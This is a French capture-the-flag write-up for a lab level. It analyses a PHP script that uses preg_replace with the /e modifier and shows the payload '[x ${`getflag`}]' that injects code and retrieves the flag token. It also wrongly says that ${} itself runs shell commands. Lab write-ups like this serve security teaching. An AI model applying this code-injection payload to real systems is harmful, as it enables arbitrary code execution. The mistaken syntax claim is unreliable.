 ## Level 06: 
  
1. 
    Suite au login, on remarque 2 ficheris présents: ```level06```et ```level06.php```.  
    On essaye d'éxecuter le binaire `level06`:
    ```bash
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
    ```  
    Nous comprenons alors qu'il va falloir examiner et utiliser le fichier `level06.php`.  
    Nous examinons le contenu du fichier php :
    ```bash
    cat level06.php
    ```
    Output:
    ```php
    #!/usr/bin/php
    <?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m; 
    }

    function x($y, $z) { 
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
        return $a;
    }

    $r = x($argv[1], $argv[2]);
    print $r;
    ?>
    ```
2. Analyse du script ```level06.php```:  
Le script ```level06.php``` définit deux fonctions, y et x, qui manipulent des chaînes de caractères via des remplacements avec des expressions régulières et exécutent des actions sur des fichiers.

    2.1 Prise d'arguments en ligne de commande:  
    Le script prend 2 arguments ```$argv[1]``` et ```$argv[2]``` en ligne de commande :
    ```php
    $r = x($argv[1], $argv[2]); 
    ```

    2.2  La fonction x:  
    ```php
    function x($y, $z) { 
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
    ```
    Cette fonction fait plusieurs choses :
    - Chargement de fichier
        ```php
        $a = file_get_contents($y);
        ```  
        Cette ligne permet de charger le fichier, dont le chemin est fourni par `$y`, dans la variable `$a` en utilisant `file_get_contents($y)`
    - 1er remplacement:
        ```php
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        ```  
        Cette ligne recherche des motifs dans `$a` correspondant à `[x ...]` où `...` peut être n'importe quel texte. La partie capturée après `[x` (désignée par `(.*)`) est passée en argument à la fonction `y`. Puis, Le contenu `[x ...]`est remplacé par le résultat de la fonction `y(...)`.
    - 2eme et 3eme remplacement:
        ```php
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        ```  
        Ces lignes permettent de remplacer tous les `[` par des `(` ainsi que tous les `]` par des `)`.  

    2.3  La fonction y:  
    ```php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m; 
    }
    ```
    Cette fonction prend une chaîne de caractères m en entrée, applique 2 remplacements avec des expressions régulières, et retourne la chaîne modifiée :
    - Elle remplace tous les . (points) par la chaîne x (un espace, un "x", et un autre espace).
    - Elle remplace tous les @ (arobases) par la chaîne y (un espace suivi d'un "y").  

3. Analyse de la faille :  
    Dans la fonction x, une ligne nous intéresse:
    ```php
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    ```
    La fonction preg_replace en PHP permet de rechercher des motifs dans une chaîne de caractères et de les remplacer par une autre chaîne. Elle prend trois arguments :
    - Le premier argument : L'expression régulière `"/(\[x (.*)\])/e" `
    - Le deuxième argument : La chaîne de remplacement `"y(\"\\2\")"`
    - Le troisième argument : La chaîne d'entrée `$a`.
    
    La particularité ici réside dans l'usage du modificateur /e, qui est notre faille:
    
    - Le modificateur /e signifie que PHP évaluera la chaîne de remplacement comme du code PHP.
    - Cela permet d’exécuter du code PHP arbitraire dans la chaîne de remplacement.
    
    Ainsi, pour exploiter la faille, il suffit que la chaîne d'entrée `$a` soit `[x ${getflag}]` pour que le script éxecute la commande shell `${getflag}`. ( En PHP la syntaxe `${}` est utilisée pour l’exécution de commandes shell.)  

4. Exploitation de la faille:  
    Pour exploiter cette faille, nous allons créer un fichier temporaire `flag06` dans `/tmp/` contenant ```[x ${`getflag`}]```:
    ```bash
    echo '[x ${`getflag`}]' > /tmp/flag06
    ```  
    et nous allons ensuite éxecuter le binaire `level06` avec le fichier `/tmp/flag06` argument.  
    Output:
    ```bash
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
     in /home/user/level06/level06.php(4) : regexp code on line 1
    ```
